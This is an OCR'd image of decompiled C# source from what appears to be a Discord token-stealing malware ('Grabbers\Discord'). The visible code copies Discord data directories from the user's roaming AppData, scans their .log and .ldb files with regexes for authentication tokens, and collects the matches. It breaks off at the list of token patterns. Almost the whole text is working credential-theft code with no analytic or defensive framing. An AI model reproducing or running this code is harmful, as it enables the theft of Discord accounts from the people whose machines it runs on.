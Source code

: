 ```csharp
			string text = Variables.workdir + "\\Grabbers\\Discord";
			foreach (string text2 in Discord.DiscordDirectories)
			{
				string directoryName = Path.GetDirectoryName(Path.Combine(Variables.roamingappdata, text2));
				string text3 = Path.Combine(text, new DirectoryInfo(directoryName).Name);
				bool flag = !Directory.Exists(directoryName);
				if (flag)
				{
					break;
				}
				try
				{
					Filemanager.CopyDirectory(directoryName, text3);
				}
				catch
				{
				}
			}
		}

		// Token: 0x0600000A RID: 10 RVA: 0x000026CC File Offset: 0x000008CC
		public static string[] GetTokens(Regex TokenRegex)
		{
			List<string> list = new List<string>();
			try
			{
				foreach (string text in Discord.DiscordDirectories)
				{
					string text2 = Path.Combine(Variables.roamingappdata, text);
					string text3 = Path.Combine(Path.GetTempPath(), new DirectoryInfo(text2).Name);
					bool flag = !Directory.Exists(text2);
					if (!flag)
					{
						Filemanager.CopyDirectory(text2, text3);
						foreach (string text4 in Directory.GetFiles(text3))
						{
							bool flag2 = !text4.EndsWith(".log") && !text4.EndsWith(".ldb");
							if (!flag2)
							{
								string text5 = File.ReadAllText(text4);
								Match match = TokenRegex.Match(text5);
								bool success = match.Success;
								if (success)
								{
									list.Add(match.Value ?? "");
								}
							}
						}
						Filemanager.RecursiveDelete(text3);
					}
				}
			}
			catch (Exception ex)
			{
				Console.WriteLine(ex);
			}
			return list.ToArray();
		}

		// Token: 0x04000001 RID: 1
		private static Regex[] TokenRegexs = new Regex[]
		{
```
